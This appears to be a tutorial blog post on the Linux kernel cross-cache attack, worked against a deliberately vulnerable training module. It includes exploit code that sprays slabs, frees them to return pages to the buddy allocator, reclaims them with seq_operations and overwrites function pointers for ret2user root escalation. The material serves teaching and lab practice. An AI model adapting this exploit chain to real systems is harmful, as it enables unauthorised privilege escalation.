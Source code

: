 ```yaml
---
title: Linux Kernel Exploitation - Cross-Cache Attack
date: 2025-04-27
categories: [Guide, Linux Kernel Exploitation]
tags: [linux, pwn]
---
```


In this post, I will explain cross-cache attack, a fundamental technique for advanced Linux kernel exploitation. Understanding this technique is important to understand other exploitation techniques, such as Dirty PageTable and DirtyCred, which I will cover in future posts. Download the [handouts](https://github.com/r1ru/linux-kernel-exploitation/tree/main/cross-cache-attack) beforehand.

## Analysis
The vulnerable LKM provides three commands: `CMD_ALLOC`, `CMD_WRITE`, and `CMD_FREE`. These commands are used to allocate, write to, and free objects defined as follows:
```c
#define OBJ_SIZE    0x200

struct obj {
    char buf[OBJ_SIZE];
};
```
Note that `obj_alloc` and `obj_free` internally use `kmem_cache_zalloc` and `kmem_cache_free`, respectively.
This means a dedicated cache is used for managing these objects:
```c
static long obj_alloc(int id) {
    if (objs[id] != NULL) {
        return -1;
    }
    objs[id] = kmem_cache_zalloc(obj_cachep, GFP_KERNEL);
    if (objs[id] == NULL) {
        return -1;
    }
    return 0;
}

static long obj_free(int id) {
    kmem_cache_free(obj_cachep, objs[id]);
    return 0;
}
```
The cache is created in `module_initialize`:
```c
static int __init module_initialize(void) {
    if (misc_register(&vuln_dev) != 0) {
        return -1;
    }
    obj_cachep = KMEM_CACHE(obj, 0);
    if (!obj_cachep) {
        return -1;
    }
    return 0;
}
```

## Bugs
In `obj_free`, `objs[id]`, which is a reference to a freed memory region, is not cleared:
```c
static long obj_free(int id) {
    kmem_cache_free(obj_cachep, objs[id]);
    return 0;
}
```
This results in an obvious UAF. Since we already have a write primitive, it's natural to think about overlapping freed objects with some useful kernel objects, like `seq_operations` or `tty_struct`, to overwrite function pointers and control RIP. However, we cannot simply do this, since the objects are allocated from a dedicated cache. This is where cross-cache attack comes in.

## Cross-Cache Attack
The main idea of cross-cache attack is to turn a dangling reference to an object into a dangling reference to its underlying pages. As you may know, kernel objects are allocated from slab caches, which consist of one or more slabs. Each slab is made up of `2^ order` pages and contains `objs_per_slab` objects. These values can be found in /sys/kernel/slab/\<CACHE_NAME\>.

When all objects in a slab are freed, underlying pages are returned to the buddy allocator if the fllowing aditional conditions are met:
- The slab is not the active slab
- The per-cpu partial slab list is full

This technique is extremely powerful. It lets us ideally overlap victim objects with any kernel object.

## Exploitation
First, we allocate `objs_per_slab * (cpu_partial + 1)` objects to prepare `cpu_partial + 1` slabs, which will later be used to fill the per-cpu slab list:
```c
int objs_per_slab = 8;
int cpu_partial = 52;
int num_sprary = objs_per_slab * (cpu_partial + 1);

for (int i = 0; i < num_sprary; i++) {
    obj_alloc(i);
}
```
Next, we allocate one object to create a new active slab.
```c
obj_alloc(num_sprary);
```
Next, we free the objects in the slabs obtained in step 1 to fill the per-cpu partial slab list and release the underlying order-0 pages. To increase the reliability, we only free all objects in even-numbered slabs. This is because if continuous pages are freed, the buddy allocator will merge them and treat them as higher-order pages, which makes it more difficult to reclaim them later.
```c
for (int i = 0; i < num_sprary; i += objs_per_slab) {
    if (i % (objs_per_slab * 2) == 0) {
        for (int j = i; j < i + objs_per_slab; j++) {
            obj_free(j);
        }
    } else {
        obj_free(i);
    }
}
```
Next, we allocate a large number of `seq_operations` and make the order-0 pages freed in step 3 be used as the kmalloc-32 slabs. Since kmalloc-32 also uses order-0 pages, the attack has a high chance of success.
```c
int seqfds[0x20];
for (int i = 0; i < 0x20; i++) {
    seqfds[i] = open("/proc/self/stat", O_RDONLY);
    assert(seqfds[i] >= 0);
}
```
Finally, we use `CMD_WRITE` to overwrite function pointers in `seq_operations` and control RIP. Since SMAP, SMEP, KASLR, and KPTI are disabled, we can easily escalate privileges via ret2user:
```c
char payload[0x8];
*(unsigned long *)&payload = (unsigned long)escalate_privilege;

for (int i = 0; i < num_sprary; i += objs_per_slab) {
    if (i % (objs_per_slab * 2) == 0) {
        obj_write(i, payload, 0x8);
    }
}

for (int i = 0; i < 0x20; i++) {
    read(seqfds[i], payload, 1);
}
```
By running this exploit, we can achive root privilege and see the flag:
![win](/assets/img/posts/2025-04-27-1/win.png)

## References
1. Awarau and pql. 2022. CVE-2022-29582. https://ruia-ruia.github.io/2022/08/05/CVE-2022-29582-io-uring/#crossing-the-cache-boundary
2. Imran Khan. 2022. Linux SLUB Allocator Internals and Debugging, Part 1 of 4. https://blogs.oracle.com/linux/post/linux-slub-allocator-internals-and-debugging-1